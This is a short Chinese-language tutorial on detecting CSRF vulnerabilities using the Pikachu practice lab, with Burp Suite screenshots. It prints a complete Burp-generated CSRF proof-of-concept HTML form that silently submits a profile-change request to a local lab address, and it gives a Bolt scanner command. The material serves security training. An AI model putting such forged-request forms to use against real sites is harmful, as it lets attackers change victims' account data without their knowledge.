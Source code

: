 # 

# CSRF漏洞检测

> 用 pikachu靶场做演示

## 半自动检测

### 用BurpSuite检测

登录账号

![](https://pic.imgdb.cn/item/64c8d71d1ddac507cc028a46.jpg)

点击**“修改个人信息”**，开启抓包，将性别boy改成girl。
![](https://pic.imgdb.cn/item/64c8e0a61ddac507cc15038a.jpg)

鼠标右键选择“Engagement tools”——“Engagement tools”
![](https://pic.imgdb.cn/item/64c8e10f1ddac507cc1593e1.jpg)

把生成的html代码复制到新建的html文件中：

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.31.6/pikachu-master/vul/csrf/csrfget/csrf_get_edit.php">
      <input type="hidden" name="sex" value="girl" />
      <input type="hidden" name="phonenum" value="18626545453" />
      <input type="hidden" name="add" value="chain" />
      <input type="hidden" name="email" value="vince&#64;pikachu&#46;com" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

丢掉之前抓到的包(也就是性别还是boy)，关闭抓包，把html文件拖到浏览器中：
![](https://pic.imgdb.cn/item/64c8e27d1ddac507cc181ca9.jpg)

点击按钮，可以看到性别变成了girl，说明存在CSRF漏洞。
![](https://pic.imgdb.cn/item/64c8e2d41ddac507cc18ae63.jpg)

​	

### CSRF Tester

​	

​	

## 全自动化

### Bolt

```
bolt.py -u http://xxxx
```


